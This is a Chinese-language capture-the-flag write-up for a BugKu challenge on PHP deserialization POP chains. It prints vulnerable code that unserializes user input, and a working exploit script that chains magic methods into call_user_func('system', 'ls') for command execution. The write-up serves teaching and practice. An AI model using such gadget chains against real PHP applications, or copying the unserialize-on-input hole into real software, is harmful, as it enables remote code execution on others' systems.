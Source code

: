 ### PHP POP 链

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b18c0cd0e0a243d4ffc5a9.jpg)

```
__call 魔术方法：当调用对象不存在的方法时，会触发该方法<br>__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__invoke 魔术方法：允许对象作为函数被调用

__set 魔术方法：当给不可访问的属性赋值时会触发

__get 魔术方法：当访问不可访问的属性时会触发 __destruct

析构函数：当对象销毁时调用
```

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __call($name, $arguments)
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        die("Wishes can be fulfilled");
    }
}

class Nevv{
    private $happiness;

    public function __invoke()
    {
        return $this->happiness->check();
    }

}

class Rabbit{
    private $aspiration;
    
    public function __set($name,$val){
        return $this->aspiration->family;
    }
}

class Year{
    public $key;
    public $rabbit;

    public function __construct($key)
    {
        $this->key = $key;
    }

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }

    public function __get($name)
    {
        $name = $this->rabbit;
        $name();
    }

    public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
}

if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
}else {
    echo "过新年啊~过个吉祥年~";
}
?>
```

首先传入 Year 中的 $key="happy new year"

条件成立调用 firecrackers 方法

但 Rabbit 中 wish 不存在，所以调用 get 魔法方法

此时 $name() 对象被当成函数访问，类型实际上是 Rabbit 对象

但 invoke 方法实际上是调用了 Nevv

因为 check() 是个方法不存在，所以调用了 call 方法

$a 和 $b 是两个 Year 对象，$c 是一个 Rabbit 对象

它的构造函数接受 $b（另一个 Year 对象）作为参数

这意味着 Rabbit 对象 $c 会持有 $b 对象

$e 是一个 Happy 对象用于执行系统命令

将 Rabbit 对象 $c 赋值给 $a->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

Year 对象的 $rabbit 属性会被赋值为 Rabbit 对象

而 Rabbit 对象的 $aspiration 属性会被赋值为 Year 对象，依此类推

```php
<?php
class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content){
        $this->cmd = $cmd;
        $this->content = $content;
    }
}

class Nevv{
    private $happiness;

    public function __construct($happiness){
        $this->happiness=$happiness;
    }
}

class Rabbit{
    private $aspiration;
    
    public function __construct($aspiration){
        $this->aspiration=$aspiration;
    }
}

class Year{
    public $key="happy new year";
    public $rabbit;
}

$b=new Year();
$c=new Rabbit($b);  // Rabbit -> Year

$e=new Happy("system","ls");
$d=new Nevv($e);  // Nevv -> Happy

$a=new Year();
$b->rabbit=$d;  // Year -> Nevv -> (Happy)
$a->rabbit=$c;  // Year -> Rabbit -> (Year -> (Nevv -> (Happy)))

// Year:(__destruct -> firecrackers()) -> Rabbit:(__set) -> Year:(__get) -> Nevv:(__invoke) -> Happy:(__call)

echo urlencode(serialize($a));

```

拿到 flag

![](https://pic1.imgdb.cn/item/67b18d7bd0e0a243d4ffc5ea.jpg)